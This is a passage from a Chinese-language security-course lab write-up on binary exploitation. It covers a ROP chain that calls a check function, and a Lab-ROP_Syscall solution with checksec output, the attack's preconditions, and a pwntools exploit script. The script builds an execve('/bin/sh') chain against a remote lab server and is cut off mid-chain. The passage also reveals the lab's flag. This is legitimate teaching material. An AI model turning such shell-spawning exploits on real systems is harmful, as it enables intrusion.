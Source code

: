 $$
此時`output`, `secret`都已知，我們反推出flag為何，但重點是要怎麼呼叫到check function?==ROP chain + BOF==

1. 先利用該隻binary的gadget蓋成我們需要的chain，並且隨便找一個區間是不太會寫入的bss section address
    ```
    check_fn_addr = 0x4017ba
    bss_section = 0x4c7f00
    pop_rdx_rbx_ret = 0x0000000000485e8b
    mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
    pop_rdi_ret = 0x00000000004020af
    ...
    rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
    )
    ```
2. 等到跳到check function後就可以開始接return output，並按照上面的公式回推flag

## Lab-ROP_Syscall
Flag: `flag{www.youtube.com/watch?v=apN1VxXKio4}`

### 解題流程與思路
這一題就和之前寫的[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)差不多，一樣是利用蓋ROP chain拿到shell，先看一下checksec
```bash
$ checksec chal
[*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_rop_syscall/share/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
要達成這個攻擊需要幾個條件:
1. 程式本身要有足夠多的gadget -> 最好binary是statically link，如果不是的話要看看有沒有辦法leak出libc base address，再用libc上的gadget
2. PIE沒開
3. 有BOF
這樣的話就可以使用rop chain的方法拿到shell，用rop gadget拿到`pop rax ; ret`, `pop rdi ; ret`, `pop rsi ; ret`, `pop rdx ; ret`, `syscall`等gadget，接著利用BOF的方式送過去，然後還要考慮送rop chain之前有多少的垃圾bytes，這個可以直接用動態看

### Exploit
```python
from pwn import *

# r = process('./chal')
r = remote('10.113.184.121', 10052)
context.arch = 'amd64'

string_bin_sh = 0x0000000000498027
pop_rax_ret = 0x0000000000450087
pop_rdi_ret = 0x0000000000401f0f
pop_rsi_ret = 0x0000000000409f7e
pop_rdx_pop_rbx_ret = 0x0000000000485e0b
syscall = 0x0000000000401cc4

rop_chain = flat(
    pop_rax_ret, 0x3b,
```